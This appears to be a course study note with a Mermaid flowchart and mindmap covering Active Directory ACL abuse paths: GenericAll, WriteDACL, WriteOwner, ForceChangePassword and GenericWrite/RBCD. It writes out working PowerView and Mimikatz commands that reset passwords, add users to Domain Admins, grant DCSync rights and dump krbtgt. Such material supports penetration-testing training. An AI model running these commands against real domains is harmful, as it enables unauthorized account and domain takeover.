


# ACL Abuse — WriteDACL, GenericAll, GenericWrite, ForceChangePassword

## Attack Path

```mermaid
flowchart TD
    START(["👤 Any Domain User\nwith ACL privilege"])

    subgraph enum["Phase 1: Enumerate ACLs"]
        E1["Find interesting ACLs\nFind-InterestingDomainAcl -ResolveGUIDs\nInvoke-ACLScanner -ResolveGUIDs"]
        E2["BloodHound\nOutbound Object Control\nFind shortest path to DA"]
        E3["Get-DomainObjectAcl -Identity targetobject\n-ResolveGUIDs | Where ActiveDirectoryRights\n-match 'GenericAll|WriteDACL|GenericWrite'"]
        E4["Key ACE types found:\nGenericAll / FullControl\nGenericWrite\nWriteDACL\nWriteOwner\nForceChangePassword\nAddMember"]
    end

    subgraph genericall["Path A: GenericAll on User"]
        GA1["GenericAll = full control\nover target object"]
        GA2["Reset target's password\nSet-DomainUserPassword\n-Identity targetuser\n-AccountPassword (ConvertTo-SecureString\n'NewPass123!' -AsPlainText -Force)"]
        GA3["OR: Add SPN for Kerberoasting\nSet-DomainObject -Identity targetuser\n-Set @{serviceprincipalname='fake/spn'}\nThen Kerberoast"]
        GA4["OR: Targeted Kerberoasting\nInvoke-Kerberoast -Identity targetuser"]
        GA5["✅ Account compromised"]
    end

    subgraph genericall_group["Path B: GenericAll on Group"]
        GB1["GenericAll on a group\n(e.g. Domain Admins)"]
        GB2["Add self to group\nAdd-DomainGroupMember\n-Identity 'Domain Admins'\n-Members studentx"]
        GB3["✅ Domain Admin group member"]
    end

    subgraph writedacl["Path C: WriteDACL on Domain Object"]
        WD1["WriteDACL on Domain Object\nor specific OU"]
        WD2["Grant DCSync rights to self\nAdd-DomainObjectAcl\n-TargetIdentity dollarcorp.moneycorp.local\n-PrincipalIdentity studentx\n-Rights DCSync"]
        WD3["OR: Grant GenericAll to self\nAdd-DomainObjectAcl\n-TargetIdentity targetobject\n-PrincipalIdentity studentx\n-Rights All"]
        WD4["DCSync as studentx\nlsadump::dcsync /user:krbtgt"]
        WD5["✅ Full domain compromise\nfrom WriteDACL"]
    end

    subgraph writeowner["Path D: WriteOwner"]
        WO1["WriteOwner on object"]
        WO2["Take ownership\nSet-DomainObjectOwner\n-Identity targetobject\n-OwnerIdentity studentx"]
        WO3["Now grant self WriteDACL\nAdd-DomainObjectAcl\n-Rights WriteDACL"]
        WO4["Proceed as WriteDACL attack"]
    end

    subgraph forcechange["Path E: ForceChangePassword on User"]
        FC1["ForceChangePassword ACE\non high-priv user"]
        FC2["Change password without\nknowing current password\nSet-DomainUserPassword\n-Identity dauser\n-AccountPassword ..."]
        FC3["Login as that user\n✅ Privilege escalation"]
    end

    subgraph genericwrite["Path F: GenericWrite on Computer (RBCD)"]
        GW1["GenericWrite on computer object\n(e.g. ciadmin on dcorp-mgmt)"]
        GW2["Set msDS-AllowedToActOnBehalfOfOtherIdentity\nRBCD attack\n(see diagram 08)"]
        GW3["✅ Local admin via RBCD"]
    end

    START --> E1 & E2 & E3 --> E4
    E4 --> GA1 --> GA2 & GA3 & GA4 --> GA5
    E4 --> GB1 --> GB2 --> GB3
    E4 --> WD1 --> WD2 & WD3 --> WD4 --> WD5
    E4 --> WO1 --> WO2 --> WO3 --> WO4
    E4 --> FC1 --> FC2 --> FC3
    E4 --> GW1 --> GW2 --> GW3

    style START fill:#4CAF50,color:#fff
    style GA5 fill:#f44336,color:#fff
    style GB3 fill:#f44336,color:#fff
    style WD5 fill:#f44336,color:#fff
    style FC3 fill:#f44336,color:#fff
    style GW3 fill:#f44336,color:#fff
```

## Mindmap

```mermaid
mindmap
  root((ACL Abuse))
    Enumeration
      Find-InterestingDomainAcl
        -ResolveGUIDs
        Filter high-value targets
      BloodHound
        Outbound Object Control
        Shortest path to DA
        Transitive rights
      Get-DomainObjectAcl
        Per-object ACE list
    ACE Types
      GenericAll
        Full control
        On User: reset pass or add SPN
        On Group: add member
        On Computer: RBCD
        On Domain: WriteDACL
      GenericWrite
        Modify specific attributes
        Set SPN for Kerberoasting
        RBCD on computer
      WriteDACL
        Modify ACL on object
        Grant DCSync to self
        Grant GenericAll to self
      WriteOwner
        Take ownership first
        Then grant WriteDACL
        Two-step privilege escalation
      ForceChangePassword
        Reset without old password
        Target high-priv accounts
      AddMember
        Add to group directly
        Domain Admins target
    Tools
      PowerView
        Add-DomainObjectAcl
        Set-DomainObjectOwner
        Set-DomainUserPassword
        Add-DomainGroupMember
      BloodHound
        Visual ACL paths
        Attack path queries
```
